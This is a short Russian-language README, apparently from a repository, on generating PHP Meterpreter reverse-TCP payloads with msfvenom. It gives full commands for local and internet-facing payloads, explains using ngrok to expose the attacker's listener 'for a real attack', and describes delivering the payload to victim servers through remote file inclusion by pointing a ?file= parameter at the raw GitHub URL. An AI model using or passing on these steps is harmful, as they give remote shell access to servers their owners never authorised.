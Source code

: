 Генерируем payload php в msfvenom.

Синтаксис:
msfvenom -p нужный payload LHOST=ip_адрес LPORT=порт -f формат_файла > имя_файла_на_выходе

Файл local_meterpreter_reverse_tcp.php - файл с локальным ip адрессом в LHOST (сетевой адаптер в режиме NAT), используется если атакующая машинка и сервер-жертва в одной сети.
Пример:
msfvenom -p php/meterpreter_reverse_tcp LHOST ip_адрес LPORT=4444 -f raw > local_meterpreter_reverse_tcp.php

Для того, чтобы провести реальную атаку в интернете стоит использовать ngrok.
Создаём payload на php используюя ngrok для ip адресации (т.к. машинка в NAT, то ngrok прокидывает порты на домен и решает проблему доступнсти ip адреса только внутри сети), грубо говоря: даёшь ngrok-у локальный ip и порт, а он возвращает тебе глобальный.
Как с этим всем работать:
1) ngrok tcp 4444
2) ngrok выдасть нам:
Forwarding   tcp://6.tcp.eu.ngrok.io:15089 -> localhost:4444
3) LHOST=6.tcp.eu.ngrok.io  LPORT=15089
4) msfvenom -p php/meterpreter_reverse_tcp LHOST=6.tcp.eu.ngrok.io LPORT=15089 -f raw > global_meterpreter_reverse_tcp.php 

Как работать с payloadom:
1) Тыкаем на скрипт
2) Нажимаем Raw
3) Копируем ссылку из адресной строки
4) Вставляем в RFI (к примеру: .....?file=url ссылка на наш GitHub код)
